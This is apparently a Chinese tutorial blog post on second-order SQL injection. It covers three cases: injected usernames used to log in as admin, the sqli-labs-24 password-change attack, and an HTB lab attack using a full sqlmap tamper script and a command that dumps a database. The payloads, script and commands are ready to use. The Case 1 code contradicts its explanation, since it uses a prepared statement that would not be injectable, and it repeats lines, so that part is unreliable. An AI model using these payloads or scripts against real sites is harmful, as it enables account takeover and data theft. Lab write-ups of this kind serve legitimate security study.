

0x01、二次注入原理：
用户提交的值未被处理（转义或过滤）就存储在数据库中，而开发人员信任来自数据库的数据，未经处理直接在其他功能中调用
0x02、二次注入类型：
- 用户提交的值未被处理（转义或过滤）就存储在数据库中，未经处理直接在其他功能中调用。（对应案例1和3）
- 用户输入经过addslashes处理，但是数据库在存储过程吃掉 ‘' ;再次调用时触发paylaod且绕过了addslashes等转义处理 。（对应案例2）
分析几个案例更容易理解；各个案例的源码我会在文末放出
0x03、案例1：直接以目标用户身份身份登录
注册时没有经过任何任何处理，payload直接存入数据库；在登录时触发payload以目标（通常为管理员）身份登录
注册时构造payload：
用户名：admin' -- -
密码：password登录处验证代码：
if($_SERVER["REQUEST_METHOD"] == "POST"){
// Check if username is empty
if(empty(trim($_POST["username"]))){
$username_err = 'Please enter username.';
} else{
$username = trim($_POST["username"]);
}
// Check if password is empty
if(empty(trim($_POST['password']))){
$password_err = 'Please enter your password.';
} else{
$password = trim($_POST['password']);
}
####对用户输入没有进行特殊处理
if(empty(trim($_POST["username"]))){
$username_err = 'Please enter username.';} else{
$username = trim($_POST["username"]);
}
// Check if password is empty
if(empty(trim($_POST['password']))){
$password_err = 'Please enter your password.';
} else{
$password = trim($_POST['password']);
}
// Validate credentials
if(empty($username_err) && empty($password_err)){
// Prepare a select statement
$sql = "SELECT username, password FROM users WHERE username = ?";
####此时将用户名和密码从数据库中取出---->触发构造的payload
##SQL语句为：SELECT username, password FROM users WHERE username = 'admin' -- -
##也就是取出admin账户的账户密码来做验证；所以后边的代码可以不用看都没事
if($stmt = mysqli_prepare($link, $sql)){
// Bind variables to the prepared statement as parameters
mysqli_stmt_bind_param($stmt, "s", $param_username);。
###在传递给mysqli_prepare()的SQL语句中为参数标记绑定变量为用户输入
// Set parameters
$param_username = $username;
// Attempt to execute the prepared statement
if(mysqli_stmt_execute($stmt)){
// Store result
mysqli_stmt_store_result($stmt);
###获取$sql执行结果
// Check if username exists, if yes then verify password
if(mysqli_stmt_num_rows($stmt) == 1){ ####结果集中行数等于1,即用户存在
// Bind result variables
mysqli_stmt_bind_result($stmt, $username, $hashed_password); ###将结果集中的列绑定到变量。
if(mysqli_stmt_fetch($stmt)){ ###从准备好的语句中获取结果到mysqli_stmt_bind_result()绑定的变量中 。
if(password_verify($password, $hashed_password)){
/* Password is correct, so start a new session and
save the username to the session */
session_start();
$_SESSION['username'] = $username;
header("location: home.php");
} else{
// Display an error message if password is not valid
$password_err = 'The password you entered was not valid.';
}
}
} else{
// Display an error message if username doesn't exist
$username_err = 'No account found with that username.';
}
} else{
echo "Oops! Something went wrong. Please try again later.";
}
}0x04、案例2：经典案例sqli-labs-24，更改管理账户密码
在注册时构造payload
用户名： admin' #
密码：password注册时对用户输入的注册用户名进行特殊字符转义
$username= mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);
....
###此时payload被转义为admin\'\ #
...
$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
mysql_query($sql) or die('Error Creating your user account, : '.mysql_error());
...
##存入数据库后payload被还原为: admin' #也就是转义会被数据库吃掉，在被引用时还原为我们的paylaod；原理如下图
登录时同样对用户输入进行特殊字符转义（没有进行特殊处理的话即会变成案例1）
function sqllogin(){
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
//$sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
$res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
$row = mysql_fetch_row($res);
//print_r($row) ;
if ($row[1]) {
return $row[1];
} else {
return 0;
}
}简单验证一下注册和登录流程：
更改密码：
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
####直接获取当前用户名进行密码更新
###此时SQL语句： UPDATE users SET PASSWORD='password' where username='admin'#' and password='$curr_pass'
$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
........至此完成二次注入对目标用户密码的修改
0x05、案例3：二次注入中的数据查询（利用SQLMAP脚本进行二次注入）
以HTB的NightMare靶机为例：
注册帐户名 ： ’
登录进入发现SQL报错
初步验证注入点 ，在BurpSuit分别抓注册和登录包发送到Repeater；来回切换
' -- - 仍然报错；寻找正确闭合方式
" -- - 回显SQL报错信息
') -- -无SQL报错信息
1') or 1=1 #无SQL报错信息
') order by 1000# 回显SQL报错信息
') order by 1# 无SQL报错信息
.....
###最终验证出列值为 2 使用SQLMAP进行POST二次注入；
编写对应tamper脚本简易思路：（难点是注册之后基于新cookie进行身份验证）
我在这里找到了对应的技巧：将HTTP请求发送到主页并检索新的cookie值；将sqlmap生成HTTP请求替换Cookie值
https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/
https://medium.com/@lethanhphuc.pk/second-order-sql-injection-explained-with-example-f67fb199f5e5
注册：register username位置填入 payload ;密码固定password=123456
post_data = { ‘username’:payload, ‘password’:’tw123’,’register’:’Register’ }
然后是获取用户注册成功后返回的cookie并执行替换；使用–second-url http://10.10.10.66/notes.php
在index之后请求notes.php验证结果
response = s.post(“http://10.10.10.66/register.php", data=post_data)
php_cookie = re.search(‘PHPSESSID=(.*?);’, response.headers[‘Set-Cookie’]).group(1)
最终tamper：
#!/usr/bin/env python
import reimport requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
pass
def create_account(payload):
s = requests.Session()
post_data = { 'user':payload, 'pass':'tw123', 'register':'Register' }
proxies = { 'http':'http://127.0.0.1:8080' }
response = s.post("http://10.10.10.66/register.php", data=post_data, proxies=proxies)
php_cookie = re.search('PHPSESSID=(.*?);', response.headers['Set-Cookie']).group(1)
return "PHPSESSID={0}".format(php_cookie)
def tamper(payload, **kwargs):
headers = kwargs.get("headers", {})
headers["Cookie"] = create_account(payload)
return payloadsqlmap语句：
sqlmap --technique=U -r login.req --dbms mysql --tamper second-order.py --second-url 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080

注意点：
- post包中密码需要和tamper脚本中一致
- 去掉login.req中的cookie那一行
- 使用代理的话需要开启Burpsuit
这里就直接贴最终的paylaod吧：
sqlmap --technique=U -r login.req --dbms mysql --tamper second-order.py --second-url 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D sysadmin --no-cast####需要–no-cast 参数
0x06、总结：
主要利用点还是网站对用户输入没有进行处理（这也是二次注入比较少的原因之一）；但是二次注入工具难以检测，所以危害还是很大的
对于案例二的话应该各位表哥都玩过，所以这里着重点就是案例三中如何使用SQLMAP对二次注入进行数据查询的问题；所以这里我除了上边案例中的源码，我还另外给出了一份二次注入回显型的源码；如果各位表哥有其他更好的思路也欢迎留言
参考链接：
http://www.thegreycorner.com/2017/01/exploiting-difficult-sql-injection.html
https://medium.com/@lethanhphuc.pk/second-order-sql-injection-explained-with-example-f67fb199f5e5